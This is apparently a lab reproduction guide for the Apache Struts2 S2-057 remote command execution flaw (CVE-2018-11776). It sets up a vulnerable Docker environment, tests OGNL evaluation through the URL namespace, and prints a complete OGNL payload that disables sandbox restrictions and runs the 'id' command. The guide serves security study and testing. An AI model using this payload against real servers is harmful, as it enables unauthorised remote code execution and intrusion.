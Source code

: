 # Struts2 S2-057 Remote Command Execution Vulnerability (CVE-2018-11776)

When the configuration of Struts2 meets the following conditions:

 - alwaysSelectFullNamespace is true
 - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from the uri and computed as an OGNL expression, eventually causing any command execution vulnerabilities.

Impact version: Less than or equal to Struts 2.3.34 and Struts 2.5.16

Vulnerability details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## vulnerability environment

Start the Struts 2.3.34 environment that meets the criteria:

```
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Vulnerability recurrence

Test the OGNL expression `${233*233}`:

```
Http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use the OGNL expression given in any command given in [S2-057 Principle Analysis and Recurrence Process (POC)] (https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']). (#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()). (#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a .getInputStream()))}
```

It can be seen that the id command has been successfully executed:

![](2.png)